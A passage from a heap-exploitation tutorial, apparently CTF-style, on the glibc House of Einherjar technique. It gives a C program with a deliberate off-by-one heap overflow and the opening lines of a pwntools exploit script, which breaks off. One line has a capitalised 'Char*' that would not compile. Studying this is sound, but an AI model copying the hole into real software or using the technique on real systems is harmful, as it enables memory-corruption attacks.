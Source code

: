 
### Attack process example


Code that can be used for House Of Einherjar attacks:


```c

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>



int main(void){

    char* s0 = malloc(0x200);　//构造fake chunk

    char* s1 = malloc(0x18);

    char* s2 = malloc(0xf0);　

Char* s3 = malloc(0x20); //To prevent s2 from merging with top chunk
    printf("begin\n");

    printf("%p\n", s0);

    printf("input s0\n");

    read(0, s0, 0x200); //读入fake chunk

    printf("input s1\n");

    read(0, s1, 0x19); //Off By One

    free(s2);

    return 0;

}

```



The attack code is as follows:


```python

from pwn import *



p = process("./example")

context.log_level = 'debug'

#gdb.attach(p)

p.recvuntil("begin\n")

address = int(p.recvline().strip(), 16)

p.recvuntil("input s0\n")
```